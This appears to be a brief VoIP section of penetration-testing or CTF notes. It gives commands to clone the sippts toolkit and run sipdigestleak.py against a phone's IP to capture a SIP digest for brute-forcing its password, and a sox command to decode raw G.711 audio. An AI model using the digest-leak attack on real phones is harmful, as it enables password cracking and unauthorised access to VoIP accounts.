 # VoIP

<details>

<summary>Sipdigestleak</summary>

Allows attacker to get a digest response from a phone and use it to guess the password via a brute-force attack

```bash
git clone https://github.com/Pepelux/sippts.git 
python3 sipdigestleak.py -i 192.168.206.156
```

</details>

<details>

<summary>Decode raw file</summary>

Find the stream and encoding from WebUI

```bash
sox -t raw -r 8000 -v 4 -c 1 -e mu-law 2138.raw out.wav
```

* Stream is 8000Hz
* Encoder is G.711

</details>
